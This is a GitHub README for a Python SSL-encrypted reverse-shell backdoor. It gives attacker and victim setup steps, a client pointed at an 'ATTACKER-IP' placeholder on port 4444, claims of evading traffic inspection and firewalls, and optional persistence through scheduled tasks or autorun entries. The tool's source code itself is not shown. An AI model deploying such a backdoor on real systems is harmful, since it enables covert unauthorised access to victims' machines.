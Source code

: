 # 🔐 SSL Encrypted Backdoor Tool

A powerful Python-based SSL-encrypted backdoor for secure remote shell access. Built for ethical red teaming, penetration testing, and research purposes only.

![Python](https://img.shields.io/badge/Python-3.10+-blue.svg)
![Security](https://img.shields.io/badge/Use-Ethical-red)
![Platform](https://img.shields.io/badge/Platform-Windows%20%7C%20Linux-lightgrey)
![License](https://img.shields.io/badge/License-MIT-green)

---

## 🧠 Overview

This project implements a stealthy SSL-encrypted backdoor tool written in Python. It establishes a secure communication channel between a server (attacker) and a client (target) using SSL/TLS, providing command execution and remote shell capabilities.

- 🔒 **Secure Communication:** All data is encrypted using SSL to prevent traffic inspection.  
- ⚙️ **Cross-Platform Compatibility:** Works on both Windows and Linux systems.  
- 📡 **Simple Architecture:** Minimal dependencies and easy deployment.

> ⚠️ **Disclaimer:** This project is intended for educational and authorized penetration testing purposes only. Misuse of this tool is illegal and unethical.

---

## 📁 Project Structure

```
BACKDOOR/
├── server.py          # Listener/Handler running on the attacker machine
├── client.py          # Reverse backdoor that connects to attacker's server
├── cert.pem           # SSL certificate (for server)
├── key.pem            # SSL private key (for server)
└── README.md          # Documentation
```

---

## 🚀 Features

✅ SSL/TLS encrypted socket communication  
✅ Reverse shell functionality  
✅ Remote command execution  
✅ Dynamic client connection handling  
✅ Minimal footprint  

---

## ⚙️ Setup Instructions

### 🖥️ Server (Attacker)

Generate SSL Certificate (if not present):

```bash
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
```

Run the Server Listener:

```bash
python server.py
```

You should see:

```
[+] Listening on 0.0.0.0:4444  
[+] Connection established with ('client-ip', port)  
Shell#
```

---

### 🖥️ Client (Victim)

Edit `client.py` and update with attacker IP:

```python
host = 'ATTACKER-IP'
port = 4444
```

Then run the client:

```bash
python client.py
```

Once executed, the client establishes an SSL connection back to the server and awaits commands.

---

## 🔧 Usage Example

1. Start `server.py` on the attacker machine.
2. Run `client.py` on the target machine.
3. Use the shell interface on the server to send commands:

```bash
Shell# whoami
Shell# ipconfig
Shell# dir
```

---

## 📌 How It Works

- **SSL Socket Wrapping:** Uses Python’s `ssl` module to wrap sockets with TLS encryption.  
- **Reverse Connection:** Client initiates the connection to bypass inbound firewall rules.  
- **Command Execution:** `subprocess.Popen` is used for shell command execution and output redirection.  
- **Persistence (Optional):** Can be configured as a scheduled task or autorun entry.

---

## 📦 Requirements

- Python 3.10+
- SSL Certificate (`cert.pem`, `key.pem`)
- OpenSSL (for certificate generation)

Install Python modules (uses built-in modules only):

```bash
pip install -r requirements.txt
```

📌 *Currently, no external Python packages are required.*

---

## 🛡 Ethical Usage

This tool was developed strictly for **educational**, **research**, and **authorized penetration testing**.  
🚫 Using this code for unauthorized access or malicious activity is a criminal offense.

---

## 🧑‍💻 Author

**Kasula Shiva**  
🎓 B.Tech CSE (Cybersecurity)  
🔗 GitHub: [shivakasula48](https://github.com/shivakasula48)  
📧 Email: [shivakasula10@gmail.com](mailto:shivakasula10@gmail.com)

---

## 📜 License

This project is licensed under the **MIT License**.  
Feel free to fork, modify, and use it for legitimate purposes.

---

## 📷 Screenshots

📡 Example Secure SSL Shell Prompt:

```
[+] Listening on 0.0.0.0:4444  
[+] Connection established with ('172.16.34.86', 49881)  
Shell# whoami  
Shell# dir  
```

---

## ⭐ Star the Repo

If you found this project useful or educational, consider giving it a ⭐ on GitHub!

---

## 📚 References

- [Python SSL Documentation](https://docs.python.org/3/library/ssl.html)
- Offensive Security Practices  
- Metasploit-style Reverse Shells
